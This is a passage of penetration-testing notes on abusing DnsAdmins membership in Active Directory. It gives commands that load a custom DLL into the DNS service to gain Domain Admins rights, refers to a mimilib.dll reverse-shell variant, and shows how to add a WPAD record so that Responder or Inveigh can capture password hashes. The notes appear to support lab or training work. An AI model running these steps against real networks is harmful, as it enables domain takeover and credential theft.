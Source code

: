  - Confirming Group Membership :
```powershell
Get-ADGroupMember -Identity DnsAdmins
```

 - Loading Custom DLL :
```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

**Check restart DNS Privilege :**

 -  Finding User's SID :
```powershell
wmic useraccount where name="netadm" get sid
```

-  Checking Permissions on DNS Service :
```powershell
sc.exe sdshow DNS
```

- Restart Dns service : 
```sh
sc stop dns
sc start dns
```

- Confirming Group Membership : 
```powershell 
net group "Domain Admins" /dom
```

`Don't forget to logout or restart your sessions to apply the change !!`

**Using Mimilib.dll**

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

**Creating a WPAD Record**

- Disabling the Global Query Block List

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

- Adding a WPAD Record
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.16.100
```

`Use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes '
#### Print Operators
#Print_Operators
